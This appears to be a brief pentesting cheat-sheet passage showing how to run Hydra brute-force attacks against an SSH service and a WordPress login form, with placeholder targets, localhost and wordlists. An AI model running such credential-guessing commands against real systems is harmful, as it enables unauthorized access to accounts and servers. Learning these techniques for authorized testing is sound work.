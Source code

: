 ssh:

`hydra -l user -p pass <ip_address> -t 4 ssh`

if it is a website check the post response and copy it into hydra:

it should then look something like this:

`$ hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`